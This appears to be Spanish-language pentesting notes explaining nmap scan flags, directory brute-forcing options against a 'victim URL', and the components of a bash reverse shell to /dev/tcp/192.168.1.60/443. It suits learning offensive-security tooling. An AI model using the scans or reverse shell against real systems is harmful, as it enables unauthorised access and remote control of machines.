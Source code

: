 **1. “-sS”:**
  - este parámetro nos permite hacer un sondeo Tcp pero no establecer conexión En vez de “SYN>SYN/ACK>ACK” hace un “SYN>SYN/ACK/RST” El rst es para cerrar conexión, como no se ha esablecido conexión normalmente no se guarda en los logs ni rastro en los firewalls.
    
**2.	“-p-“**
  - Con esto le indicamos que nos escanee los 65535 puertos totales que hay
     
**3. “—open”** 
  -	para que nos muestre solo los puertos abiertos y que ignore los filtrados,
    
**4. “-T5”** 
  - Este nos permite modificar la plantilla de temporizado del escaneo, existen 5 modos : paranoico (0), sigiloso (1), amable (2), normal (3), agresivo (4) y loco (5), Los 2 primeros reducen el sondeo tcp para que utilize menos ancho de banda. La 0 sondea 1 puerto a la vez, y espera 5 min antes de enviar cada sonda, el 1 y el 2 son similares, esperan 0.4 segundos entre sondas, el 3 (uso por defecto de nmap) hace sondeos en paralelo, el 4 y el 5 envian sondas cada 5 ms, lo único que les diferencian es el tiempo que esperan para recibir la respuesta de el sondeo TCP.
    
**5. “—min-rate 5000”**
  -	Nos permite especificar la cantidad mínima de paquetes que se envían por segundo, por lo que he investigado el numero que menos falsos positivos y falsos negativos da se encuentra entre el 5000-5800.
    
**6. ”-n”** 
  -	Le indicamos que no queremos que nos haga la resolución DNS al host, básicamente pregunta a los servidores DNS cual es el dns del host (nslookup), lo que ocurre es que la resolución hace muy lento el escaneo por lo que lo desactivamos ya que si queremos hacer resolución dns lo podemos hacer manualmente.
    
**7. “-Pn”**
  - En este caso le indicamos que no lance trazas icmp al host, ya que normalmente antes de un escaneo nmap envia trazas icmp para determinar si el host está activo o no, lo que ocurre es que ralentiza mucho el escaneo por lo que lo deshabilitamos ya que si queremos determinar si el host esta vivo tenemos muchísimos otros métodos incluso si las trazas icmp están bloqueadas por firewall físico o de sistema operativo.
    
**8. “-oG”**
  - Le indicamos que nos ponga el output en un archivo en formato grepeable para que después cuando lo pase por una función de mi zshrc me copie al portapapeles los puertos abiertos
    
**9. “-vvv”**
  -	Es para ponerlo en verbose mode, básicamente que mientras está haciendo el escaneo nos muestre que puertos encuentra abiertos
    
**10. “-sC”**
  -	Nos permite detectar que servicios están corriendo en los puertos abiertos
    
**11. “-sV”**
  -	Nos permite detectar la versión de los servicios que estan ejecutándose en los puertos lo que nos permite encontrar vulnerabilidades
    
**12. “-oN”**
  -	Es para exportarlo en formato Nmap por si después tenemos que volver a analizarlo.

**13.	“-u”**
  -	Es para indicarle el url victima
  	
**14.	“-w”**
  -	Es para indicarle el diccionario para la fuerza bruta, en este caso utilizo un que ya esta creado llamado “SecLists” que es un conjunto de diccionarios para hacer fuerza tanto como subdominios, fuzzing, etc.
    
**15. “-t”**
  - Es para indicarle los hilos de el proceso (Cuantas tareas a la vez debe ejecutar a la vez (en este caso 400)

**16. “-x”**
  - Es para indicarle que extensiones específicas quiero que me reporte que ha encontrado en algún directorio.
    
**17.	“bash -c”**
  -	Primero lo que hacemos es asegurarnos que el comando se ejecuta con bash y no con otro tipo de Shell, ya que sinó no funcionará.

**18.	“bash -i”**
  -	Ejecutamos una bash interactiva, ya que bash -c solo nos permite ejecutar comandos, como por ejemplo: “whoami”, pero este no nos permite ejecutar nada más, por esa razón una bash interactiva nos deja poner comandos todas las veces que queramos y recibir el output.
    
**19.	“>&”**
  -	Con estos caracteres especiales redirigimos el stdrr y el stdout a nuestro equipo
    -	“/dev/tcp/192.168.1.60 /443”
  - En este caso “/dev/tcp” está siendo utilizado para entablar por tcp una conexión con nuestra ip por el puerto 443
    
**20.	“0>&1”**
  -	Redirige el stdin a stdout, esto se hace para que se pueda interactuar con una Shell en remoto mediante la conexión establecida.
  -	Esta redirección es utilizada para hacer que la entrada estándar del proceso Bash (que normalmente se recibiría del teclado) esté conectada a la misma ubicación que la salida estándar. Esto significa que cualquier entrada que se escriba en la sesión de la shell se transmitirá a través de la misma conexión que se ha establecido con la dirección IP y puerto especificados. Esto permite la interacción bidireccional con la shell remota a través de la conexión de red establecida.

 
